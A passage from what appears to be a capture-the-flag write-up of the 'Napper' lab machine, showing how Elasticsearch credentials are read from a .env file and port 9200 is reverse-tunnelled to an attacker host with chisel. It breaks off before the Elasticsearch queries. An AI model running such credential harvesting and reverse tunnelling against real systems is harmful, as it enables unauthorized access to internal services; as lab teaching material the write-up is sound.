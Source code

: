 In the .env we have credentials for elastic, which is running on port 9200 as it's visible in the .env file:

```powershell
PS C:\Temp\www\internal\content\posts\internal-laps-alpha> type .env
ELASTICUSER=user
ELASTICPASS=DumpPassword\$Here

ELASTICURI=https://127.0.0.1:9200
```

```powershell
PS C:\Temp\www\internal\content\posts\internal-laps-alpha> cmd /c "netstat.exe -ano" | findstr LISTENING
```
![Port 9200 opened](/assets/images/Napper/port_9200_opened.png)

Let's forward that port to our machine using chisel:

### Attacker


```bash
❯ ./chisel server -p 1234 --reverse
2024/05/03 20:52:07 server: Reverse tunnelling enabled
2024/05/03 20:52:07 server: Fingerprint CCdOgnd9DUXQk2yL0WfkRa1ALH1Yygc2itgC3YD5g3k=
2024/05/03 20:52:07 server: Listening on http://0.0.0.0:1234
```

### Victim

It's recommended to open another shell to leave the other active for when we need it.

```powershell
PS C:\Windows\Temp\Privesc>.\chisel.exe client 10.10.14.76:1234 R:9200:127.0.0.1:9200
```

Let's use the credentials in the .env file to inspect elasticsearch service using [this guide](https://book.hacktricks.xyz/network-services-pentesting/9200-pentesting-elasticsearch):
